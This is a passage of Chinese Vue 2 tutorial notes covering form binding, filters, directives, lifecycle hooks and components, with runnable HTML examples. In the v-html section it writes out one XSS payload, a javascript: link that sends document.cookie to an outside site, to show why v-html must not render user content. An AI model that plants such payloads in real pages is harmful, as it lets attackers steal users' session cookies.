        }
    })
</script>
```

* 若：`<input type="checkbox"/>`
  1. 【没有】配置input的value属性，那么收集的就是`checked`（勾选 or 未勾选，是布尔值）
  2. 【配置】input的value属性:
     * v-model的初始值是`非数组`，那么收集的就是`checked`（勾选 or 未勾选，是布尔值）
     * v-model的初始值是`数组`，那么收集的的就是`value`组成的数组

```html
<!-- 准备好一个容器-->
<div id="root">
    <form @submit.prevent="demo">
        爱好：
        学习<input type="checkbox" v-model="userInfo.hobby" value="study">
        打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
        吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
        <br/><br/>
        所属校区
        <select v-model="userInfo.city">
            <option value="">请选择校区</option>
            <option value="beijing">北京</option>
            <option value="shanghai">上海</option>
            <option value="shenzhen">深圳</option>
            <option value="wuhan">武汉</option>
        </select>
        <br/><br/>
        其他信息：
        <textarea v-model.lazy="userInfo.other"></textarea> <br/><br/>
        <input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
        <button>提交</button>
    </form>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el:'#root',
        data:{
            userInfo:{
                hobby:[],
                city:'beijing',
                other:'',
                agree:''
            }
        },
        methods: {
            demo(){
                console.log(JSON.stringify(this.userInfo))
            }
        }
    })
</script>
```


* 备注

> v-model的三个修饰符：
>
> * lazy：失去焦点再收集数据
> * number：输入字符串转为有效的数字
> * trim：输入首尾空格过滤
>
> 例：`v-model.number=“phone” `就算是number类型的input框，`vue`收集的还是字符串，可以使用这个修饰符


#### 1.16 过滤器

**库推荐**

> boocdn.cn  
>
> * moment.js
> * dayjs

1. 定义：对要显示的数据进行`特定格式化`后再显示（适用于一些【简单逻辑】的处理）。
2. 语法：
   * 1.注册过滤器：`Vue.filter(name,callback)` 或 `new Vue{filters:{}}`
   * 2.使用过滤器：`{{ xxx | 过滤器名}}`  或 ` v-bind:属性 = "xxx | 过滤器名"`
3. 备注：
   * 1.过滤器也可以接收【额外参数】、多个过滤器也可以【串联】
   * 2.并没有改变原本的数据, 是产生新的对应的数据

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
    <script src="../js/dayjs.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>显示后的时间</h2>
      <!-- 计算属性实现 -->
      <h3>现在是：{{fmtTime}}</h3>
      <!-- methods实现 -->
      <h3>现在是：{{getFmtTime()}}</h3>
      <!-- 过滤器实现    -->
      <h3>现在是：{{time | timeFormater}}</h3>
      <!-- 过滤器实现(传参)    -->
      <h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
      <!-- 动态属性v-bind -->
      <h3 :x="msg | mySplice"></h3>
    </div>
    <div id="root2">{{msg | mySlice}}</div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    // 全局过滤器filter
    Vue.filter('mySlice', function (value) {
      return value.slice(0, 5) //截取前五位
    })
    new Vue({
      el: '#root',
      data: {
        time: 1672834919884, //时间戳
        msg: '你好,尚硅谷',
      },
      computed: {
        fmtTime() {
          return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss') //传以传的参为主，不传以当前为主
        },
      },
      methods: {
        getFmtTime() {
          return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
        },
      },
      // 局部过滤器filters
      filters: {
        // 过滤器的返回值会显示在{{time | timeFormater}}
        timeFormater(value, str = 'YYYY年MM月DD日 HH:mm:ss') {
          // console.log('@', value)
          return dayjs(value).format(str)
        },
      },
    })
    new Vue({
      el: '#root2',
      data: {
        msg: 'asdfghjjk',
      },
    })
  </script>
</html>
```


#### 1.17 vue内置指令

**之前学过的指令：**

- `v-bind` :单向绑定解析表达式，可简写为 :xxx
- `v-model`: 双向数据绑定
- `v-for` :遍历数组 / 对象 / 字符串
- `v-on` :绑定事件监听，可简写为**@**
- `v-show` :条件渲染 (动态控制节点是否展示)
- `v-if` :条件渲染（动态控制节点是否存存在）
- `v-else-if` :条件渲染（动态控制节点是否存存在）
- `v-else` :条件渲染（动态控制节点是否存存在）

##### 1.17.1 v-text指令

1. 作用：向其所在的节点中渲染【文本内容】。
2. 与插值语法的区别：[v-text](https://so.csdn.net/so/search?q=v-text&spm=1001.2101.3001.7020)【会替换】掉节点中的内容，`{{xx}}` 【则不会】。

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <div>你好,{{name}}</div>
      <!-- v-text会用name的值替换整个结构,把所有的值当文本解析,不会当成标签 -->
      <div v-text="name">你好</div>
      <div v-text="str"></div>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        name: '尚硅谷',
        str: '<h3>你好</h3>',
      },
    })
  </script>
```

##### 1.17.2 v-html指令

**cookie简略图示**


> 每个浏览器的cookie是浏览器特有的，不能跨浏览器读取
>
> cookie是浏览器存在硬盘里的，关闭浏览器不会消失

1. 作用：向指定节点中渲染包含【html结构】的内容。

2. 与插值语法的区别：

   * `v-html`会替换掉节点中所有的内容，`{{xx}}`则不会。


   * `v-html`可以识别html结构。

3.严重注意：`v-html`有安全性问题！！！！

   * 在网站上动态渲染任意HTML是非常危险的，容易导致`XSS攻击`。
   * 一定要在可信的内容上使用`v-html`，永远【不要用在】用户提交的内容上！

```html
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <div>你好,{{name}}</div>
      <div v-html="str"></div>
      <div v-html="str2"></div>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        name: '尚硅谷',
        str: '<h3>你好</h3>',
        str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
      },
    })
  </script>
```

##### 1.17.3 v-vloak

**v-cloak指令（没有值）：**

- 本质是一个特殊属性，`Vue`实例创建完毕并接管容器后，会删掉`v-cloak`属性。
- 使用`css`配合`v-cloak`可以解决网速慢时页面展示出`{{xxx}}`的问题。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <style>
      [v-cloak] {
        display: none;
      }
    </style>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器-->
    <div id="root">
      <h2 v-cloak>{{name}}</h2>
    </div>
    <script
      type="text/javascript"
      src="http://localhost:8080/resource/5s/vue.js"
    ></script>

    <script type="text/javascript">
      console.log(1)
      Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

      new Vue({
        el: '#root',
        data: {
          name: '尚硅谷',
        },
      })
    </script>
  </body>
</html>
```

##### 1.17.4 v-once指令

**v-once指令：**

- `v-once`所在节点在【初次动态渲染】后，就视为静态内容了。
- 以后数据的改变不会引起`v-once`所在结构的更新，可以用于【优化性能】。

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2 v-once>初始化的n值:{{n}}</h2>
      <h2>当前的n值:{{n}}</h2>
      <button @click="n++">点我n++</button>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        n: 0,
      },
    })
  </script>
```

##### 1.17.5 v-pre指令

**v-pre指令：**

- 【跳过】其所在节点的编译过程，不去解析
- 可利用它跳过：【没有使用指令语法】、【没有使用插值语法的节点】，【会加快编译】

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2 v-pre>vue很简单</h2>
      <h2 v-pre>当前的n值:{{n}}</h2>
      <button v-pre @click="n++">点我n++</button>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        n: 0,
      },
    })
  </script>
```

#### 1.18 自定义指令

1. **语法：**

* 局部指令：

```js
new Vue({															
  directives:{ 
    指令名:配置对象 
  }   
})

new Vue({															
  directives:{ 
    指令名:回调函数 
  }   
})
```

* 全局指令：
```js
Vue.directive(指令名, 配置对象)
或
Vue.directive(指令名, 回调函数)


Vue.directive('fbind', {
    // 指令与元素成功绑定时（一上来）
    bind(element, binding) {	// element就是DOM元素，binding就是要绑定的
      element.value = binding.value
    },
    // 指令所在元素被插入页面时
    inserted(element, binding) {
      element.focus()
    },
    // 指令所在的模板被重新解析时（data数据改变导致模板重新解析）
    update(element, binding) {
      element.value = binding.value
    }
})
```

2. **配置对象中常用的3个回调：**

- `bind`：指令与元素【成功绑定】时调用。
- `inserted`：指令所在元素【被插入页面】时调用。
- `update`：指令所在模板结构【被重新解析】时调用。
- `element`就是【DOM元素】，`binding`就是【要绑定的对象】，它包含以下属性：`name`、`value`、`oldValue`、`expression`、`arg`、`modifiers`

3. **备注**

* 指令【定义】时不加`v-`，但【使用】时要加`v-`
* 指令名如果是多个单词，要使用`kebab-case`【user-name】命名方式，不要用`camelCase`【驼峰命名法】命名

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 
        需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍 
        需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点 
    -->
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>{{name}}</h2>
      <h2>当前的值是:<span v-text="n"></span></h2>
      <h2>放大10倍的值是:<span v-big="n"></span></h2>
      <h2>放大100倍的值是:<span v-big-number="n"></span></h2>
      <button @click="n++">点我n++</button>
      <hr />
      <input type="text" v-fbind:value="n" />
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    // 全局指令
    // 对象式
    /* Vue.directive('fbind', {
      // 指令与元素成功绑定时(一上来)
      bind(element, binding) {
        console.log(binding)
        element.value = binding.value
      },
      // 指令所在元素被插入页面时
      inserted(element, binding) {
        element.focus()
      },
      //  指令所在的模板被重新解析时
      update(element, binding) {
        element.value = binding.value
      },
    }) */

    // 全局函数式
    Vue.directive('big', function (element, binding) {
      console.log('big', this) //注意此处的this是window
      element.innerText = binding.value * 100
    })
    new Vue({
      el: '#root',
      data: {
        name: '尚硅谷',
        n: 10,
      },
      //   局部指令
      directives: {
        // 函数式 (element:真实dom，binding：绑定对象)
        // big函数何时被调用？ 1.指令与元素成功绑定时(一上来) 2.指令所在的模板被重新解析时
        'big-number'(element, binding) {
          element.innerText = binding.value * 10
        },
        /* big(element, binding) {
          console.log('big', this) //注意此处的this是window
          element.innerText = binding.value * 100
        }, */
        // 对象式
        fbind: {
          // 指令与元素成功绑定时(一上来)
          bind(element, binding) {
            console.log(binding)
            element.value = binding.value
          },
          // 指令所在元素被插入页面时
          inserted(element, binding) {
            element.focus()
          },
          //  指令所在的模板被重新解析时
          update(element, binding) {
            element.value = binding.value
          },
        },
      },
    })
  </script>
</html>
```


#### 1.19 Vue生命周期

##### 1.19.1 引出生命周期

**生命周期**

1. 又名**生命周期【回调函数】**、生命周期函数、生命周期钩子
2. 是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数
3. 生命周期函数的**名字【不可更改】**，但函数的具体内容是程序员根据需求编写的
4. 生命周期函数中的`this `指向是`vm`或`组件实例对象`

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2 :style="{opacity}">欢迎学习vue</h2>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    const vm = new Vue({
      el: '#root',
      data: {
        opacity: 1,
      },
      methods: {},

      //   vue完成模板解析并把【初始的】真实dom元素放入页面后(挂载完毕) 后调用mounted
      mounted() {
        console.log(this) //this是vue实例
        setInterval(() => {
          this.opacity -= 0.01
          if (this.opacity <= 0) {
            this.opacity = 1
          }
        }, 16)
      },
    })
    // 通过外部的定时器实现(不推荐)
    /* setInterval(() => {
      vm.opacity -= 0.01
      if (vm.opacity <= 0) {
        vm.opacity = 1
      }
    }, 16) */
  </script>
```

##### 1.19.2 分析生命周期


> 代码

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>当前的值是：{{n}}</h2>
      <button @click="add">点我n++</button>
      <button @click="bye">点我销毁vue实例</button>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      // template 模板范围比直接写在html上少，template中的根元素不能用template标签
      // template: `<div>
      // <h2>当前的值是：{{n}}</h2>
      // <button @click="add">点我n++</button>
      // </div>`,
      data: {
        n: 1,
      },
      methods: {
        add() {
          // 原生dom操作
          console.log('add')
          this.n++
        },
        bye() {
          console.log('bye')
          // 完全销毁一个实例，解绑了全部的指令和自定义事件
          this.$destroy() //开发很少用
        },
      },
      watch: {
        n() {
          console.log('n变了')
        },
      },
      // TIP创建流程(数据代理和数据监视创建阶段)
      beforeCreate() {
        console.log('beforeCreate')
        console.log(this) //vue实例
      },
      created() {
        console.log('created')
      },
      // TIP挂载流程
      // 不要在beforeMount中操作dom，不起作用
      beforeMount() {
        console.log('beforeMount')
      },
      // 重要
      mounted() {
        // vm.$el是真实dom
        console.log('mounted', this.$el)
      },
      // TIP更新流程
      beforeUpdate() {
        // 该阶段数据(新)和页面(旧)不同步
        console.log('beforeUpdate')
      },
      updated() {
        // 该阶段数据和页面同步,都是新的
        console.log('updated--')
      },
      // TIP销毁流程(销毁后vue实例的工作成果还在，不会直接删除页面，但是不能在操作vue实例)
      // 重要
      beforeDestroy() {
        // 还能看到数据，但是不能修改，修改了不能触发更新
        console.log('beforeDestroy', this.n)
      },
      destroyed() {
        // 一般不用
        console.log('destroyed')
      },
    })
  </script>
```

> 解析下面的图片


> ​	先判断有没有	    ` el` 这个配置项，没有就调用 `vm.$mount(el)`，如果两个都没有就一直卡着，显示的界面就是最原始的容器的界面。
>
> ​	有        `el`这个配置项，就进行判断有没有`template`这个配置项，没有` template` 就将`el`绑定的容器编译为 `vue `模板，来个对比图。

**没编译前的：**


**编译后：**


**template 的作用**

第一种情况，有 template：

如果 `el` 绑定的容器没有任何内容，就一个空壳子，但在 Vue 实例中写了 template，就会编译解析这个 template 里的内容，生成`虚拟 DOM`，最后将 `虚拟 DOM` 转为 `真实 DOM` 插入页面（其实就可以理解为 template 替代了 `el` 绑定的容器的内容）。

>  注意：template 模板范围比直接写在html上少，template中的根元素不能用template标签

```js
new Vue({
      el: '#root',
      // template 模板范围比直接写在html上少，template中的根元素不能用template标签
      template: `<div>
      <h2>当前的值是：{{n}}</h2>
      <button @click="add">点我n++</button>
      </div>`,
	  data:{}   	
    })
```

**第二种情况，没有 template：**

没有 template，就编译解析 `el` 绑定的容器，生成`虚拟 DOM`，后面就顺着生命周期执行下去。

##### 1.19.3 生命周期总结

1. `beforeCreate`（**创建前**）：数据监测(getter和setter)和初始化事件还未开始，此时 data 的响应式追踪、event/watcher 都还没有被设置，也就是说不能访问到data、computed、watch、methods上的方法和数据。
2. `created`（**创建后**）：实例创建完成，实例上配置的 options 包括 data、computed、watch、methods 等都配置完成，但是此时渲染得节点还未挂载到 DOM，所以不能访问到 `$el`属性。
3. `beforeMount`（**挂载前**）：在挂载开始之前被调用，相关的render函数首次被调用。此阶段Vue开始解析模板，生成虚拟DOM存在内存中，还没有把虚拟DOM转换成真实DOM，插入页面中。所以网页不能显示解析好的内容。
4. `mounted`（**挂载后**）：在el被新创建的 vm.$el（就是真实DOM的拷贝）替换，并挂载到实例上去之后调用（将内存中的虚拟DOM转为真实DOM，真实DOM插入页面）。此时页面中呈现的是经过Vue编译的DOM，这时在这个钩子函数中对DOM的操作可以有效，但要尽量避免。一般在这个阶段进行：开启定时器，发送网络请求，订阅消息，绑定自定义事件等等
5. `beforeUpdate`（**更新前**）：响应式数据更新时调用，此时虽然响应式数据更新了，但是对应的真实 DOM 还没有被渲染（数据是新的，但页面是旧的，页面和数据没保持同步）。
6. `updated`（**更新后**） ：在由于数据更改导致的虚拟DOM重新渲染和打补丁之后调用。此时 DOM 已经根据响应式数据的变化更新了。调用时，组件 DOM已经更新，所以可以执行依赖于DOM的操作。然而在大多数情况下，应该避免在此期间更改状态，因为这可能会导致更新无限循环。该钩子在服务器端渲染期间不被调用。
7. `beforeDestroy`（**销毁前**）：实例销毁之前调用。这一步，实例仍然完全可用，this 仍能获取到实例。在这个阶段一般进行关闭定时器，取消订阅消息，解绑自定义事件。
8. `destroyed`（**销毁后**）：实例销毁后调用，调用后，Vue 实例指示的所有东西都会解绑定，所有的事件监听器会被移除，所有的子实例也会被销毁。该钩子在服务端渲染期间不被调用。


9. **常用的生命周期钩子**
   * `mounted`发送ajax请求、启动定时器、绑定自定义事件、订阅消息等初始化操作
   * beforeDestroy清除定时器、解绑自定义事件、取消订阅消息等收尾工作
10. 关于`销毁Vue`实例
    * 销毁后借助Vue开发者工具看不到任何信息
    * 销毁后自定义事件会失效，但【原生DOM】事件依然有效
    * 一般不会在`beforeDestroy`操作【数据】，因为即便操作数据，也不会再触发更新流程了

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2 :style="{opacity}">欢迎学习vue</h2>
      <button @click="stop">停止变换</button>
      <button @click="opacity=1">透明度设置为1</button>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    const vm = new Vue({
      el: '#root',
      data: {
        opacity: 1,
      },
      methods: {
        stop() {
          this.$destroy()
        },
      },

      //   vue完成模板解析并把【初始的】真实dom元素放入页面后(挂载完毕) 后调用mounted
      mounted() {
        console.log(this) //this是vue实例
        this.timer = setInterval(() => {
          this.opacity -= 0.01
          if (this.opacity <= 0) {
            this.opacity = 1
          }
        }, 16)
      },
      // 销毁必经之路，定时器如果写在stop里面，可能会因为其他原因被销毁，但是beforeDestroy是都会走的路，所以关闭定时器写在这
      beforeDestroy() {
        console.log('即将die')
        clearInterval(this.timer)
      },
    })
  </script>
</html>
```

#### 1.20 Vue组件化编程

##### 1.20.1 对组件的理解





1. **模块**

- 理解：向外提供【**特定功能**】的 js 程序，一般就是一个` js 文件`

- 为什么：js 文件很多很复杂

- 作用：复用、简化 js 的编写，提高 js 运行效率


2. **组件**

- 定义：用来实现【**局部功能**】的【**代码和资源**】的【**集合**】（html/css/js/image…）
- 为什么：一个界面的功能很复杂
- 作用：复用编码，简化项目编码，提高运行效率

3. **模块化**

* 当应用中的 js 都以模块来编写的，那这个应用就是一个模块化的应用

> js 分为a.js b.js c.js ,并且a,b,c都是以模块编写，那就是模块化

4. **组件化**

* 当应用中的功能都是多组件的方式来编写的，那这个应用就是一个组件化的应用

##### 1.20.2 非单文件组件

**非单文件组件**：一个文件中包含有 `n 个组件`
**单文件组件**：一个文件中只包含有 `1 个组件`

1. Vue中使用组件的三大步骤：

* 【定义】组件(创建组件)
* 【注册】组件
* 【使用】组件(写组件标签)

2. 如何【定义】一个组件？

* 使用`Vue.extend(options)`创建，其中options和`new Vue(options)`时传入的那个options几乎一样，但也有点区别；

* 区别如下：

  1. el【不要写】，为什么？ ——— 最终所有的组件都要经过一个`vm`的管理，由`vm中的el`决定服务哪个容器。

  2. data必须写成【函数】，为什么？ ———— 避免组件被复用时，数据存在【引用关系】。

> 备注：使用`template`可以配置组件结构。

3. 如何注册组件？

* 局部注册：靠`new Vue`的时候传入`components`选项
* 全局注册：靠`Vue.component('组件名',组件)`

4. 编写组件标签：

> <school></school>

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>{{msg}}</h2>
      <hr />
      <!-- 第三步：编写组件标签 -->
      <school></school>
      <!-- 第三步：编写组件标签 -->
      <student></student>
      <hr />
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示

    // 第一步：创建组件
    // 创建school组件 extend拓展，组件不需要写为谁服务，谁需要谁引入
    const school = Vue.extend({
      //   el: '#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器
      template: `
      <div>
        <h2>学校名称：{{schoolName}}</h2>
        <h2>学校地址：{{address}}</h2>
        <button @click="showName">点我提示学校信息</button>
      </div>`,
      data() {
        return {
          schoolName: '尚硅谷',
          address: '成都',
        }
      },
      methods: {
        showName() {
          alert(this.schoolName)
        },
      },
    })

    // 创建student组件
    const student = Vue.extend({
      //   el: '#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器
      template: `
    <div>
      <h2>学生姓名:{{studentName}}</h2>
      <h2>学生年龄：{{age}}</h2>
    </div>
    `,
      data() {
        return {
          studentName: '小明',
          age: '男',
        }
      },
    })

    const hello = Vue.extend({
      template: `
        <div>
            <h2>你好</h2>
        </div>
        `,
    })

    // 第二步：全局组件Vue.component('组件名',组件创建的名字(外面的))
    Vue.component('hello', hello)
    // 创建vm
    new Vue({
      el: '#root',
      data: {
        msg: 'hello',
      },
      components: {
        // 第二步：注册组件(局部注册) 键值对(用的多)
        // xuexiao: school, //组件名：组件创建的名字(外面的)
        school, //正常写法
        student,
      },
    })
  </script>
</html>
```

###### 1.20.2.1 几个注意点

1. **关于组件名：**

* 一个单词组成：
  * 第一种写法(首字母小写)：school
  * 第二种写法**(首字母大写)**：School(推荐)
* 多个单词组成：
  * 第一种写法**(kebab-case命名)**：my-school
  * 第二种写法**(CamelCase命名)**：MySchool (需要Vue脚手架支持)(推荐)

>  备注：
>
> (1).组件名尽可能【回避】HTML中已有的元素名称，例如：h2、H2都不行。
>
> (2).可以使用`name配置项`指定组件在【开发者工具】中呈现的名字。

2. **关于组件标签:**

* 第一种写法：`<school></school>`
* 第二种写法：`<school/>`

>  备注：第二种不用使用脚手架时，会导致后续组件不能渲染。

3. **一个简写方式：**

* `const school = Vue.extend(options)` 可简写为：`const school = options`

```html
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <!-- 使用组件 -->
      <School></School>
      <!-- 单标签自闭合不在脚手架环境只显示一个 -->
      <School />
      <School />
      <School />
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示

    // 创建组件
    const s = Vue.extend({
      name: 'atguigu', //vue开发者工具显示的名字
      template: `
      <div>
        <h2>学校名称：{{name}}</h2>  
        <h2>学校地址：{{address}}</h2>  
      </div>
      `,
      data() {
        return {
          name: '尚硅谷',
          address: '成都',
        }
      },
    })
    new Vue({
      el: '#root',
      data: {
        msg: '欢迎学Vue',
      },
      // 注册组件
      components: {
        School: s, //组件名为单个单词
        // 'my-school': s, //组件名为多个单词
        // mySchool: s, //组件名为多个单词,脚手架里面使用
      },
    })
  </script>

```

###### 1.20.2.2 组件的嵌套



```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <!-- 使用组件 -->
      <app></app>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示

    // 创建student组件
    const student = Vue.extend({
      template: `
      <div>
        <h2>学生姓名：{{name}}</h2>
        <h2>年龄：{{age}}</h2>
      </div>
      `,
      data() {
        return {
          name: '小明',
          age: 18,
        }
      },
    })

    // 创建School组件
    const School = Vue.extend({
      template: `
      <div>
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
        <student></student>
      </div>
      `,
      data() {
        return {
          name: '尚硅谷',
          address: '成都',
        }
      },
      components: {
        // 注册组件(局部)
        student,
      },
    })

    // 创建hello组件
    const hello = Vue.extend({
      template: `
      <h2>{{name}}</h2>
      `,
      data: {
        name: '你好',
      },
    })

    // 定义app组件
    const app = Vue.extend({
      template: `
      <div>
        <hello></hello>
          <School></School>
        </div>
      `,
      components: {
        School,
        hello,
      },
    })
    new Vue({
      template: `<app></app>`,
      el: '#root',
      // 注册组件(局部)
      components: {
        app,
      },
    })
  </script>
```

###### 1.20.2.3 Vuecomponent构造函数

- school组件本质是一个名为`VueComponent`的构造函数，且不是程序员定义的，是`Vue.extend`生成的。
- 我们只需要写`<school/>`或`<school></school>`，Vue解析时会帮我们创建school组件(构造函数)的实例对象，即Vue帮我们执行的：`new VueComponent(options)`。

> 写组件标签的时候自动new VueComponent(options)

- **特别注意：**每次调用`Vue.extend`，返回的都是一个【全新的】`VueComponent`,即【不同组件是不同的对象】
- 关于this指向：
  - 【组件】配置中：data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【**VueComponent实例对象**】。
  - `new Vue(options)`配置中：data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【**Vue实例对象**】。
- VueComponent的实例对象，以后简称`vc`（也可称之为：组件实例对象）。Vue的实例对象，以后简称`vm`。

> vc有的功能vm都有（除了el）
>
> 组件是可复用的Vue实例

```html
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <School></School>
      <hello></hello>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示

    // 创建School组件
    const School = Vue.extend({
      template: `
      <div>
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
        <button @click="showName"></button>
      </div>
      `,
      data() {
        return {
          name: '尚硅谷',
          address: '成都',
        }
      },
      methods: {
        showName() {
          alert(this.name)
          console.log('showName', this) //VueComponent实例对象 vc
        },
      },
    })

    // 创建test组件
    const test = Vue.extend({
      template: `
        <h2>学校名称：{{name}}</h2>   
      `,
      data() {
        return {
          name: '狗',
        }
      },
    })

    // 创建hello组件
    const hello = Vue.extend({
      template: `
      <div>
        <h2>学校名称：{{name}}</h2>   
        <test></test>
      </div>
      `,
      data() {
        return {
          name: '小明',
        }
      },
      components: {
        test,
      },
    })
    console.log(School)
    console.log(School === hello) //false
    const vm = new Vue({
      el: '#root',
      data: {},
      components: {
        School,
        hello,
      },
    })
  </script>
```

###### 1.20.2.4 一个重要的内置关系

- 一个重要的内置关系：`VueComponent.prototype.__ proto__` === `Vue.prototype`
- 为什么要有这个关系：让组件实例对象（`vc`）可以访问到 `Vue原型`上的属性、方法。



```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <School></School>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    Vue.prototype.x = 99
    // 创建School组件
    const School = Vue.extend({
      template: `
      <div>
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
        <button @click="showX">showX</button>
      </div>
      `,
      data() {
        return {
          name: '尚硅谷',
          address: '成都',
        }
      },
      methods: {
        showX() {
          console.log(this.x) //99
        },
      },
    })
    new Vue({
      el: '#root',

      components: {
        School,
      },
    })
    console.log(School.prototype.__proto__ === Vue.prototype) //true

    // 原型复习
    /* // 定义一个构造函数
    function Demo() {
      this.a = 1
      this.b = 2
    }
    // 创建一个Demo的实例对象
    const d = new Demo()

    console.log(Demo.prototype) //显示原型对象(只有函数才有，实例没有)
    // 实例的隐式原型属性永远指向自己缔造者的原型对象
    console.log(Demo.__proto__) //隐式原型对象 (是一个东西，都是原型对象)

    // 程序员通过原型属性操作原型对象，追加一个x属性，值为99
    Demo.prototype.x = 99
    console.log('@', d) //Demo {a: 1, b: 2} Demo是为了表示{a: 1, b: 2} 是Demo构造函数创建的 */
  </script>
```

##### 1.20.3 单文件组件

单文件组件就是将一个组件的代码写在`.vue` 这种格式的文件中，`webpack` 会将 `.vue `文件解析成 html,css,js这些形式。

**引入组件后必须要暴露(ES6)**

1. 分别暴露 export const School = Vue.extend() (暴露多个的时候推荐) 

> 引入：import {???/} from ???

2. 统一暴露 export{School}         (暴露多个的时候推荐) 

> 引入：import {???/} from ???

3. 默认暴露 export default School (暴露一个的时候推荐) 

> 引入：import ??? from ???

来做个单文件组件的案例：

**School.vue**

```html
<template>
    <!-- 组件的结构 -->
    <div class="demo">
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
        <button @click="showX">showX</button>
      </div>
</template>


<script>
// 组件交互相关的代码(数据、方法等)，引入后要暴露才能使用
/* 必须要暴露(ES6)
1.分别暴露 export const School = Vue.extend() (暴露多个的时候推荐) 引入：import {???/} from ???
2.统一暴露 export{School}         (暴露多个的时候推荐) 引入：import {???/} from ???
3.默认暴露 export default School (暴露一个的时候推荐) 引入：import ??? from ???
*/
export default {
      name:'School', //和文件名一样
      data() {
        return {
          name: '尚硅谷',
          address: '成都',
        }
      },
      methods: {
        showX() {
          console.log(this.x) //99
        },
      },
    }
     
</script>


<style>
/* 组件的样式 */
.demo{
    background-color: pink;
}
</style>
```

**Student.vue**

```html
<template>
    <!-- 组件的结构 -->
    <div class="demo">
        <h2>学生姓名：{{name}}</h2>
        <h2>年龄：{{age}}</h2>
      </div>
</template>


<script>
// 组件交互相关的代码(数据、方法等)，引入后要暴露才能使用

export default {
      name:'Student', //和文件名一样
      data() {
        return {
          name: '小明',
          age: 18,
        }
      },    
    }
     
</script>
```

**App.vue**

> 作用：**汇总**所有的组件

```html
<template>
    <div>
